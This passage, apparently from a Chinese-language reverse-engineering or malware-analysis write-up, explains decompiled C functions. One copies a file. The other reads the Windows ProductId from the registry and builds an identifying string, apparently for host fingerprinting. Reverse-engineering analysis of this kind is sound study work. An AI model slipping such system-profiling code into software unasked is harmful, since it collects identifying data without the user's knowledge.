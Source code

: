 ```c
  // 如果第二个文件打开失败，则关闭第一个文件，并返回错误码 -1
  if (v1)
  {
    fclose(Stream);
    return -1;
  }

  // 循环读取第一个文件的内容，并将其写入到第二个文件中，直到到达文件末尾
  for (i = fgetc(Stream); !feof(Stream); i = fgetc(Stream))
    fputc(i, v5);

  // 关闭文件流
  fclose(v5);
  fclose(Stream);

  // 返回成功码 0
  return 0;
}

```

这个函数的作用是将一个文件的内容复制到另一个文件中，如果其中一个文件打开失败，则返回 -1。

> 下面再分析一下函数 sub_401570

#### sub_401570

```c
char *sub_401570()
{
  unsigned int v0; // 用于存储字符串长度
  BYTE *v1; // 用于存储数据的指针
  HKEY phkResult; // 用于操作注册表键的句柄
  DWORD cbData; // 用于存储数据的字节数
  DWORD Type; // 用于存储数据的类型
  BYTE Data[1024]; // 用于存储注册表数据的缓冲区

  // 尝试打开注册表中的键
  if ( RegOpenKeyExA(HKEY_LOCAL_MACHINE, "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion", 0, 0x101u, &phkResult) )
  {
    // 如果打开失败，则将 Buffer 和 "@!" 追加到 byte_4137C0 中
    strcat(byte_4137C0, Buffer);
    strcat(byte_4137C0, "@!");
    // 计算 byte_412F90 的长度并加 1
    v0 = strlen(byte_412F90) + 1;
    v1 = (BYTE *)byte_412F90; // 将 byte_412F90 的地址赋给 v1
  }
  else
  {
    // 如果成功打开注册表键，则查询 "ProductId" 的值并将其存储在 Data 中
    cbData = 1023;
    RegQueryValueExA(phkResult, "ProductId", 0, &Type, Data, &cbData);
    RegCloseKey(phkResult); // 关闭注册表键
    // 将 Buffer、"##"、byte_412F90 和 "@@" 追加到 byte_4137C0 中
    strcat(byte_4137C0, Buffer);
    strcat(byte_4137C0, "##");
    strcat(byte_4137C0, byte_412F90);
    strcat(byte_4137C0, "@@");
    v0 = strlen((const char *)Data) + 1; // 计算 Data 的长度并加 1
    v1 = Data; // 将 Data 的地址赋给 v1
  }
  // 将 v1 指向的 v0 字节的数据复制到 byte_4137C0 中
  qmemcpy(&byte_4137C0[strlen(byte_4137C0)], v1, v0);
  return byte_4137C0; // 返回 byte_4137C0 的指针
```